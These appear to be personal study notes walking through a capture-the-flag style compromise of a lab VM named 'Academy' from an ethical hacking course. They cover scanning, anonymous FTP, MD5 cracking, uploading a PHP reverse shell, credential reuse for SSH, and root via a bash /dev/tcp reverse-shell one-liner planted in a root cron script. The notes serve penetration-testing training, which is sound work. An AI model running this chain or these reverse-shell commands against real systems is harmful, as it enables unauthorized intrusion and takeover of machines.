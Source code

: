 ftp port 21:
version vsftpd 3.0.3
allows anonymous login

ssh port 22
version OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)

http port 80
version  Apache httpd 2.4.38 ((Debian))


80 - 192.168.5.5 - 16:50 14/02/2024
Default Webpage - Apache - PHP



![[Pasted image 20240214104859.png]]

- `sudo netdiscover -r 10.0.2.0/24`
- `nmap -T4 -p- -A 10.0.2.152`  
- port 80 open => try to look at http://10.0.2.152
#### FTP
- port 21 open
- There is a file         [[Notes/TCM/ETH/Capstones/Academy/nmap|Look inside nmap scan]]
=>
try to connect as anonymous 
`ftp 10.0.2.152`
`anonymous`
try to get the file -->  `get note.txt`

> [!TIP] This can be intresting:
>- we don't know the file position inside the victim machine
>- HTTP is open =>  always good to check if` http://10.0.2.152/note` exists
>- if exist => we can <span style="color:#00b050">upload</span> a malicious <span style="color:#00b050">file using FTP</span>
>- execute it
	
exit from ftp and `cat note.txt`
![[Pasted image 20240214154532.png]]
- We found a password
- Probably is an hash
- Check what type with tool [[cheet#Hash-identifier|hash-identifier]] 
- `hash-identifier
- `cd73502828457d15655bbd7a63fb0bc8`
- probably is a --> MD5 hash
	- => try to crack hash with [[cheet#hashcat|hashcat]] + [[cheet#Locate|locate]]
	- locate rockyou.txt
	- echo "type here the hash" > hash.txt
	- `hashcat -m 0 Desktop/TCM/ETH/VMe/Academy/hash.txt` `Desktop/TCM/rockyou.txt` 
	- <span style="color:#00b050">We found a password</span> -->  student
	- ![[Pasted image 20240214160424.png]]

Now we have a userid + password 
But we don't know for what it's used
=>
Let's check if it exists a web page where we can enter these credentials
=>
#### Enumerate HTTP
we can use [[cheet#dirb|dirb]] or [[cheet#ffuf|ffuf]]
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ_VARIABLE -u http://10.0.2.152/FUZZ_VARIABLE`
=>
<span style="color:#00b050">we found an "academy" path</span>
![[Pasted image 20240214162425.png]]
- go to `http://10.0.2.152/academy `and try to login with the userid + pass
- <span style="color:#00b050">We can login </span>
- there is a form where you can upload an image
- maybe we can also <span style="color:#00b050">upload</span> other files
- for example a <span style="color:#00b050">reverse shell</span> 
- search -->  for php reverse shell
- [Save this script locally](https://github.com/pentestmonkey/php-reverse-shell)
- change the IP in the script to your ip
- use netcat for listening to the port defined inside the script
	 - nc -nvlp 1234
	 - upload the shell in the form
	 - <span style="color:#00b050">we get a shell</span>
	 - ![[Pasted image 20240214163740.png]]
		    it's not priviliged
	=>
	it's time to privilege escalation
##### Privilege escalation
we'll use [[cheet#linpeas|linpeas]] to search any potential privilege escalation
- follow all the steps inside linpeas
- <span style="color:#00b050">we'll find a password</span> -->  My_V3ryS3cur3_P4ss
	- we can cat the file where the password is stored
	- `cat /var/www/html/academy/includes/config.php`
	- ![[Pasted image 20240214171514.png]]
	- <span style="color:#00b050">we find a user grimmie for the password</span>
- try to connect via shh -->  `ssh grimmie@10.0.2.152`
- <span style="color:#00b050">we enter</span>
- we are not root
	  => we need to become root
	![[Pasted image 20240214171831.png]]

- inside there is a backup.sh
- In some ways we can find that this script is executed every minute
	- if we change it so that it executes a shell 
	     =>
	     we have finished
	=>
	- search on google -->  [bash reverse shell one liner](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
	- we find our bash shell -->  `bash -i >& /dev/tcp/10.0.2.15/8080 0>&1`
	- changed the ip to the attacker ip
	- from the attacker machine -->  listen on 8080
							     `nc -nvlp 8080`
	- inside backup.sh delete all and paste --> `bash -i >& /dev/tcp/10.0.2.15/8080 0>&1`
	- Here we are!
	- <span style="color:#00b050">We have root access</span>
	- ![[Pasted image 20240214174016.png]]


> [!INFO] 
>This worked because the backup.sh script is executed by root each minute






